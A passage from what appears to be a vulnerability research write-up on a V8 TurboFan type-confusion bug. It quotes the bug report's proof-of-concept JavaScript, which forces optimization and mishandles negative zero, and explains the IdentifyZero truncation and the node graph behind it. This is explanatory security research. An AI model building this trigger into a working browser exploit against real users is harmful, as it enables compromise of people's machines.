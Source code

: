 We want to enter the `else` branch, because as you see it is here where the correct truncations/`UseInfo`'s are given out. The `right_use`  is automatically given the `kIdentifyZero` property, thus if our multiply node is on the right hand side, we can trigger our type confusion.

## Putting the pieces together
Here is the POC listed on the bug report:

```javascript
function foo(a) {
  var y = 1;
  var x = 0;
  var z = 0;
  if (a == NaN) z = NaN;
  if (a) {
    x = 0;
    y = -1;
    z = -0;
  }
  
  return Object.is(z + (x * y), -0);
}
console.log(foo(true));
%PrepareFunctionForOptimization(foo);
foo(false);
%OptimizeFunctionOnNextCall(foo);
foo(false);
console.log(foo(true));
```

Lets break it down piece by piece. First we have `if (a == NaN) z = NaN;`, this is so we can keep our `SpeculativeSafeIntegerAdd` node instead of just demoting to a regular `NumberAdd` node. If you scroll back up you can see this working in the `ReduceSpeculativeNumberBinop` function. This allows us to reach the correct code to pass on our truncation.

Next we add a switch so we can change the values on the fly, after this we trigger the bug.
The graph for the equation looks something like this:

```

        ┌────────────────┐  ┌────────────────┐
        │Phi (-0 | 0)    │  │SpecNumMul      │
        └───────────────┬┘ ┌┴────────────────┘
                        │  │
                        │  │
                        │  │
                       ┌▼──▼────────────┐
                       │SpecSafeIntAdd  │
                       └────────────────┘

```

We can see our multiplication (`x * y`) on the right, if you remember from earlier this is the correct place for it to be to recieve the `IdentifyZero` truncation. On the other side is `z` which can be 0 OR -0. Taking another look at the representation output we can see:
